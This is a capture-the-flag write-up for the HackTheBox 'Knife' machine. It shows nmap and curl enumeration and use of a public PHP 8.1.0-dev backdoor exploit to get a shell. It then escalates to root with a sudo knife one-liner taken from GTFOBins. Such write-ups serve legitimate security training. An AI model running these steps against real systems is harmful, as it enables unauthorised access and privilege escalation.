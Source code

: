 ### Knife HackTheBox

### Difficulty = Easy

### IP Address = 10.10.10.242

Nmap Scan:

```
-─$ nmap -sCV 10.10.10.242 -p22,80 -oN nmapscan            
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 18:06 WAT
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.93% done; ETC: 18:07 (0:00:00 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.64% done; ETC: 18:08 (0:00:00 remaining)
Nmap scan report for 10.10.10.242
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.30 seconds
```

From the scan we get two tcp ports open 

I'll check out the web server

### Web Server Enumeration

Heading over it shows a static page that provides hospital service
![image](https://user-images.githubusercontent.com/113513376/221243091-014de3b1-482b-447d-8bdb-a73271ec16ff.png)

I'll use curl to get the web server header

```
└─$ curl -v http://10.10.10.242/ -I
*   Trying 10.10.10.242:80...
* Connected to 10.10.10.242 (10.10.10.242) port 80 (#0)
> HEAD / HTTP/1.1
> Host: 10.10.10.242
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 24 Feb 2023 17:10:41 GMT
Date: Fri, 24 Feb 2023 17:10:41 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
X-Powered-By: PHP/8.1.0-dev
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

< 
* Connection #0 to host 10.10.10.242 left intact
```

We see this

```
X-Powered-By: PHP/8.1.0-dev
```

After searching for it i got an exploit regarding it [Exploit](https://www.exploit-db.com/exploits/49933)

#### Exploit 

Running it works

```
└─$ python3 exploit.py          
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ 
```

I'll got a more stable shell 

Then to stabilize your shell do this

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL +Z
stty raw -echo;fg
reset
```

Only a user is prevent on the box

```
james@knife:/$ cd /home
james@knife:/home$ ls -ala
total 12
drwxr-xr-x  3 root  root  4096 May  6  2021 .
drwxr-xr-x 20 root  root  4096 May 18  2021 ..
drwxr-xr-x  5 james james 4096 May 18  2021 james
james@knife:/home$ 
```

Lets escalate privilege to root

Checking sudo permission shows we can run knife as root

```
james@knife:/home$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

On checking [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo) i get a privesc method for knife

```
sudo knife exec -E 'exec "/bin/sh"'
```

Doing it works

```
james@knife:/home$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
 # ls -al
total 56
drwx------  7 root root 4096 May 18  2021 .
drwxr-xr-x 20 root root 4096 May 18  2021 ..
lrwxrwxrwx  1 root root    9 May  8  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3137 May  7  2021 .bashrc
drwx------  2 root root 4096 May  7  2021 .cache
drwx------  3 root root 4096 May 18  2021 .chef
-rwxr-xr-x  1 root root  105 May  8  2021 delete.sh
drwxr-xr-x  3 root root 4096 May  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root 1024 May  8  2021 .rnd
-r--------  1 root root   33 Feb 24 17:04 root.txt
-rw-r--r--  1 root root   66 May  8  2021 .selected_editor
drwxr-xr-x  3 root root 4096 May  6  2021 snap
drwx------  2 root root 4096 May  6  2021 .ssh
-rw-------  1 root root 2413 May 18  2021 .viminfo
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
